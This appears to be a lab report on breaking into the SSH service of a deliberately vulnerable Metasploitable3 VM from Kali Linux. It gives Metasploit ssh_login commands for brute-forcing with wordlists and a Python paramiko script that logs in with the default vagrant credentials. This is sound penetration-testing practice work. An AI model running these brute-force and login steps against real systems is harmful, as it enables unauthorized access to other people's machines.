







# Phase 1 Report

## 🛠️ Environment Configuration

- **Attacker Machine:**  
  Kali Linux running on a VMware virtual machine  
  **IP Address:** `172.20.10.3`  


- **Victim Machine:**  
  Metasploitable3 (Linux version) running on a UTM virtual machine  
  **IP Address:** `172.20.10.5`  


Both machines are connected using a **Bridged Network** configuration, allowing direct communication over the host's local network.


- **Ping Attacker Machine From VIctim Machine:**


- **Ping Attacker Machine From VIctim Machine:**


### Setup Summary
- **Attacker Machine:** Kali Linux on VMware (IP: `172.20.10.3`)
- **Victim Machine:** Metasploitable3 (Linux) on UTM (IP: `172.20.10.5`)
- **Network:** Bridged mode for both machines

## Compromising Metasploitable3 SSH Service

## 1.1 Using Metasploit Framework to compromise SSH

### Objective
The objective of this task is to exploit a vulnerable SSH service running on Metasploitable3 (IP: `172.20.10.5`) using Kali Linux with Metasploit Framework.

### Step-by-Step Process

1. Launch Metasploit Framework:
   ```bash
   msfconsole
   ```

2. Use the SSH login module:
   ```bash
   use auxiliary/scanner/ssh/ssh_login
   ```

3. Set the target IP address:
   ```bash
   set RHOSTS 172.20.10.5
   ```

4. Enable verbose output to monitor the attempts:
   ```bash
   set VERBOSE true
   ```
5. Assigning the credintitals can be accoplished in two main ways:

   - **Unkown Credentials** we will use kali built-in wordlists that will try all possible credentials using brute-force:
   ```bash
   set USER_FILE /usr/share/wordlists/metasploit/unix_users.txt
   set PASS_FILE /usr/share/wordlists/rockyou.txt
   ```
   ** This step may take long time to find the right credintials

   - **Known Credentials** use the known credintials directly which are **vagrant**:
   ```bash
   set USER_FILE vagrant
   set PASS_FILE vagrant
   ```

7. Run the module:
   ```bash
   run
   ```
   - **Unknown Using Brute-Force**
   
   

   - **Known Credentials**
   


### Result
- The Metasploit module successfully authenticated using the username `vagrant` and password `vagrant`.
- The SSH login was confirmed, giving shell access to the Metasploitable3 machine.

**Proof Screenshot Using Vagrant Credentials:**  


---

## 1.2 Using a Custom Python Script

### Objective
To create an automated custom script using Python to replicate the exploitation of the SSH service and show a Proof of Concept (PoC).

### Script Details
The script uses the `paramiko` library to:
- Connect to the victim’s SSH service using the credentials `vagrant:vagrant`
- Execute the `whoami` command to verify access

### Python Script Used (`ssh_poc.py`)

```python
import paramiko

target_ip = "172.20.10.5"
username = "vagrant"
password = "vagrant"

print(f"[+] Trying to connect to {target_ip} via SSH...")

ssh = paramiko.SSHClient()
ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

try:
    ssh.connect(hostname=target_ip, username=username, password=password, timeout=5)
    print(f"[+] Success! Logged in as {username}")

    stdin, stdout, stderr = ssh.exec_command("whoami")
    print("[+] Proof of Concept: Output of 'whoami'")
    print(stdout.read().decode())

    ssh.close()

except paramiko.AuthenticationException:
    print("[-] Authentication failed.")
except Exception as e:
    print(f"[-] Connection failed: {str(e)}")
```

### Installation of Required Library

Installed the necessary SSH library using:
```bash
pip install paramiko
```

### Running the Script

Executed the custom Python script:
```bash
python3 ssh_poc.py
```

### Result
- The script successfully logged into the Metasploitable3 machine.
- The command `whoami` was executed remotely and returned the username `vagrant`, confirming shell access.

**Proof Screenshot:**  
> [Insert Screenshot of Python Script Output Showing Success]

---

# End of Phase 1
